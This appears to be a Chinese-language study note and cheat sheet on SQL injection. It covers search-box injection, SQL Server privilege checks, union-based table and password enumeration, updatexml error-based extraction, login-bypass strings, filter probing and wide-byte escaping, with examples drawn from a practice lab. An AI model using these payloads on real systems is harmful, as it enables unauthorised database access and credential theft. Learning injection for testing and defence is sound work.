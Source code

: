 # 综合之-搜索型注入指北

## 一、搜索型注入简介与原理

- 1）简介
一些网站为了方便用户查找网站的资源,都对用户提供了搜索的功能,因为是搜索功能,往往是程序员在编写代码时都忽略了对其变量(参数)的过滤,而且这样的漏洞在国内的系统中普遍的存在:

其中又分为POST/GET,GET型的一般是用在网站上的搜索,而POST则用在用户名的登录,可以从form表单的method="get"属性来区分是get还是post。搜索型注入又称为文本框注入。

- 2）$sql="select * from user where password like '%$pwd%' order by password";

这句SQL的语句就是基于用户输入的pwd在users表中找到相应的password，正常用户当然会输入例如admin,ckse等等。但是如果有人输入这样的内容呢？

'and 1=1 and '%'='
这样的话这句SQL语句就变成了这样

select * from user where password like '%fendo'and 1=1 and '%'='%' order by password
changle

## 一.判断权限

a%' and (select is_member('dbo'))=1--    返回正常则 sa-系统管理员--跟windows的帐户没有关系--可以说SA的权限在SQL中是至高无上的。
a%' and (select is_member('db_owner'))=1--   返回正常则 DB
都不是那就只有一种可能啦，public，权限貌似很小。
也可以用另一种命令来判断权限
a%' and 1=(Select IS_SRVROLEMEMBER('sysadmin'));-- sa
a%' and 1=(Select IS_MEMBER('db_owner'));-- DB

## 二、搜索型注入判断
```
'and 1=1 and '%'='
%' and 1=1--'
%' and 1=1 and '%'='
```

## 三、搜索型注入实战

### 1）ge型注入
先查看源代码；
有没有字段过滤；
判断--用户名的数字
%' union select 1,2,3,4,...... and '%'='
如果不报错则为4位数。，5，6，7等等。
and exists (select id from user where LENGTH(username)<6 and id=1) and '%'=' 


### 2）判断 ---字符数量；
输入 ' order by 4#% ,报错
输入 ' order by 3#% ,未报错，通过这个简单的办法找到主查询一共有三个字段。

构造 payload: a' union select database(),user(),version()#%
利用%%闭合来写一段创建并查询数据库表，用户名和email的代码；
select username,id,email from member where username like '%$name%'";
name变成==a' union select database(),user(),4#%
就变成了select username,id,email from member where username like '%$a' union select database(),user(),4#%%'";
`#`后面被注释了。


### 3）---获取表名
a'（赋值） union select（联合查询） table_schema,table_name,2 from information_schema.tables where table_schema='pikachu'#（数据库名）
会返回一堆数据库中的表


查询表 users  和password中的数据名称：
a'union select username（表名） ,password（表明）,4 from users#%


> select下的报错演示

select（查询）/insert（插入语句）/update（数据更新）/delete（删除） 都可以使用报错来获取信息.

```

UPDATEXML(xml_document,XPathstring,new_value)
```

Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.

第一个参数:fiedname是String格式,为表中的字段名.
第二个参数:XPathstring(Xpath格式的字符串).
第三个参数:new_value,String格式,替换查找到的符合条件的 X
改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为：
```sql
 a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#
```


其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出 ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'



获取数据库表名，输入：a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='password')),0)# ，
但是反馈回的错误表示只能显示一行，所以采用 limit 来一行一行显示

字段名 a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)# 更改limit后面的数字，爆表名



数据 a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#




# **综合之-登录界面的sql语句集合**

**基于错误的POST型单引号字符型注入**

username-  a
passowrd-  a'or '1'='1 #

**基于错误的双引号POST型字符型变形的注入**

username-  a
passowrd-  a')or 1=1
passowrd-  a')or '1'='1



**POST单引号变形双注入**

username-  a
passowrd-  a')or ('1')=('1



# **综合之-测试被过滤或敏感词汇**

**字符**：
```
确认过滤了#

?id=%231
确认过滤了or

?id=or1

确认过滤多行注释符
?id=/*1

确认过滤了单行注释
?id=1'--%20
?id=1'#


确认过滤了斜杠

?id=/1
确认过滤了反斜杠

?id=1\
确认过滤了空格，报错注入才行哦，这个判断

?id=1%20
?id=1' ' '
```



**词汇**(union和select的)：
```
?id=1' union
?id=1' seletct
```

## **URL编码转义**

### 绕过空格：
`%A0 `
在URL编码中为：空值，空格。
是html中的不间断空格字符或&nbsp;


## **单引号被转义**
在每个单引号前面加"/"是php自带的转义的一种。
使用宽字节注入，应该可以绕过，常使用的是`%df%27`,mysql会认为会是一个宽字节，类似于 `x'`就可以进行绕过注入。


---

# PostgreSQL注入











